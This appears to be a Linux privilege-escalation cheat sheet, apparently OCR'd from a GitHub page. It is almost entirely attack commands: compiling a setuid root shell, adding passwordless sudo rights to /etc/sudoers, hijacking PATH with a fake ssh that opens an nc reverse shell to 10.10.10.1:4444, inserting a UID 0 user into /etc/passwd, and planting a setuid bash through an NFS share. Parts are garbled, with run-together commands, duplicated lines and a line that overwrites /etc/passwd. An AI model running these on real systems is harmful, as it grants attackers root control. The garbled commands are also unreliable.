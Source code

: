Create and compile an SUID from a limited shell (no file transfer)

```
echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" > privsc.c gcc privsc.c -o privsc

```
Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

```
You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable to execute your command instead. In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on port 4444.

```
set PATH="/tmp:/usr/local/bin:/usr/bin:/bin" echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 > tmp/f" >> /tmp/ssh chmod +x ssh


```

### Add root user to passwd if file is writeable

echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers

cat /etc/passwdcat /etc/passwd

cat /etc/group 

cat /etc/group 

cat /etc/group

grep -vE "nologin" /etc/passwd

echo test > /etc/passwd 

### edit the password file if you have r/w/x access or worldwritable

echo 'kate::0:0:kate:/bin/bash' >> /etc/passwd

cat /etc/passwd

su kate

#### use /bin/bash from the local attacker machine

If you get a nfs share you can copy over /bin/bash and execute to add the user to root group

```
first mount the remote share as per standard mount commands then from attacker machine copy bash over and apply sticky bit as root

root@kali:/tmp/nfs# cp /bin/bash /tmp/nfs/

root@kali:/tmp/nfs# chmod 4777 bash

Then ssh into the box as a standard user and run the bash command with -p

./bash: /lib/i386-linux-gnu/libtinfo.so.5: no version information available (required by ./bash)

bash-4.3# id

uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)

```